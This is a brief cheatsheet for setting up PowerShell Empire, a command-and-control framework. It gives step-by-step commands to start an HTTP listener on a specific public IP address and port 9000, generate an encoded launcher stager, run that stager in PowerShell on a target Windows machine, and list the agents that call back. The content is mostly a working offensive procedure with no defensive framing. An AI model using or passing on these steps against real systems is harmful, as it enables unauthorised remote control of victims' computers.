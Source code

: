 # Powershell Empire Quick Start Cheatsheet

Empire setup:

```
uselistener http
set Port 9000
set BindIP 0.0.0.0
set Host http://66.35.63.203:9000 (skippy)
execute

back

usestager multi/launcher
set Listener http
execute
```
Prints something like this: `powershell -noP -sta -w 1 -enc  SQB<snip>AWAA= `

- You run this in the targets Windows' Powershell 

`agents`
(lists agents)

---

#powershell 